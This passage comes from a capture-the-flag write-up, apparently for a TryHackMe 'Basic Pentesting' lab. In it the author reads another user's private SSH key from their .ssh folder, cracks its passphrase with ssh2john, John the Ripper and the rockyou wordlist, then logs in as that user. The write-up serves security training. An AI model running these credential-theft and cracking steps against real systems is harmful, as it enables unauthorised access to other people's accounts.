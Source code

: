 ```bash
/etc/hosts.allow


Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
    GSSAPIDelegateCredentials no

```
Navigating into id_rsa file
```bash
jan@basic2:~$ cd /home/kay
jan@basic2:/home/kay$ ls
pass.bak
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
I try to log in with ssh_key but it ask for passphrase.
## What is the final password you obtain?
we cannot read pass.bak at the moment
but we can crack ssh key,
copy id_rsa key from .ssh folder and save it on your machine as id_rsa

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $python ssh2john.py id_rsa > kay.hash
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $ls
hydra.restore  id_rsa  kay.hash  nmap  readme.md  ssh2john.py  www
┌─[✗]─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $john kay.txt -wordlist=/opt/seclist/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:13 DONE (2021-06-03 17:29) 0.07251g/s 1040Kp/s 1040Kc/s 1040KC/sa6_123..*7¡Vamos!
Session completed
```
Credentials for kay user :
* passphrase for id_rsa = beeswax
```bash
┌─[visith@parrot]─[~/CTF/thm/basic_pentesting]
└──╼ $ssh -i id_rsa kay@10.10.53.18 
Enter passphrase for key 'id_rsa':  
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

```